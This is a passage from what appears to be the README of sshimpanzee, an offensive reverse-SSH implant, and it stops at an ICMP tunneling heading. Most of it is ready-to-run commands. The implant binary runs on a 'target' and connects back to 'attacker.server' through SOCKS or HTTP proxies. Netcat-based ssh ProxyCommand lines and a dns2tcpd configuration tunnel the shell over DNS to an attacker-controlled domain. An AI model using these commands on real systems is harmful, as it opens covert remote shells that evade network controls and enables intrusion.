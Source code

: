 ### Connection through proxy
1) Run ssh on client side as follow:

``` 
ssh anyrandomname@127.0.0.1 -oProxyCommand="nc -lp 4444" -i CLIENT
```


2) Run sshimpanzee on target :
```
MODE=proxysock REMOTE=attacker.server PORT=4444 http_proxy=socks5://proxy.lan:8080 ./sshimpanzee
```

Other examples:
```
MODE=proxysock REMOTE=attacker.server PORT=4444 http_proxy=http://proxy.lan:8080 ./sshimpanzee
MODE=proxysock REMOTE=attacker.server PROXY_USER=user PROXY_PASS=password PORT=4444 http_proxy=http://proxy.lan:8080 ./sshimpanzee

```



### Use DNS Tunneling

1) On your server run the standard __dns2tcpd__ using the config file in this repo, you will need to modify the domain (and resource port if you want).
```
listen = 0.0.0.0
port = 53
user = nobody
key = sshimpanzee
chroot = /var/empty/dns2tcp/
domain = <SERVER>
resources = sshimpanzee:127.0.0.1:8080
```

```
sudo ./dns2tcpd -F -f dns2tcpdrc
```

2) Run ssh on client side as follow:

``` 
ssh anyrandomname@127.0.0.1 -oProxyCommand="nc -lp 8080" -i CLIENT
```

3) Run the sshimpanzee binary:
```
MODE=dns REMOTE=attacker.controled.domain ./sshimpanzee
```

Other examples :
```
MODE=dns REMOTE=attacker.controled.domain RESOLVER=8.8.8.8 ./sshimpanzee # Force the use of 8.8.8.8 DNS Resolver
```

### Use ICMP Tunneling
